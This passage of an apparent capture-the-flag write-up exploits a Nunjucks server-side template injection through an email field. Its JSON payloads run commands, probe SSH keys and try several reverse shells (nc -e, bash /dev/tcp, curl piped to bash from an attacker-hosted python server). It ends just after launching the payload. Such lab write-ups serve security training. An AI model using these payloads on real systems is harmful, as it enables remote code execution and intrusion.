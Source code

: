 ![](img/2022-06-04-11-32-44.png)
Anyway, when we try to inject some simple code, we get asked to introduce a valid email, so we can intercept the request with burpsuite. When we look up the SSTI that is taking plave in the page, we find https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks and the name `nunjucks` is quite a hint. So we can try to inject the payload:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('id')\")()}}"}
```
We get the following response:
```json
{"response":"You will receive updates on the following email address: uid=1000(david) gid=1000(david) groups=1000(david)\n."}
```
We discovered that the user is logged in as `david`.

## User shell
First, let's as we know the user name, we can try to access its ssh credentials:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('ls /home/david/.ssh')\")()}}"}
```
Which returned failure. If we execute `which nc` we get the following response:
```json
{"response":"/usr/bin/nc"}
```
So we can try to establish a reverse shell:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('nc 10.10.16.2 3333 -e /bin/bash')\")()}}"}
```
Unsuccessfull, so let's try to run a typical bash TCP reverse shell:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.10.16.2/3333 0>&1')\")()}}"}
```
As it isn't working either, we can try to establish the reverse shell with a curl-python3 method:
Payload:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.16.2:4444/Exploits/reverse_tcp | bash')\")()}}"}
```
Python server:
```bash
❯ echo "bash -i >& /dev/tcp/10.10.16.2/3333 0>&1" > Exploits/reverse_tcp
❯ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
# After launching the payload
```